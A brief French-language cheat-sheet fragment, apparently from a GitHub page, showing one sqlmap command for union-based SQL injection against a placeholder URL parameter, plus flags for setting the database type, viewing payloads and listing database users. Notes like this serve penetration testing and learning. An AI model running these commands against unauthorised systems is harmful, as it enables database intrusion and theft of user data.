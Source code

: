 ```sh
sqlmap -u 'http://domain.com?id=1&Submit=Submit#' -p id --technique=U
```

`--dbms` : specifier le type de base de donnee
` -v3 --fresh-queries` pour connaitre le payload utiliser par sqlmap
`--users` Voir les utilisateurs de la base de donnee

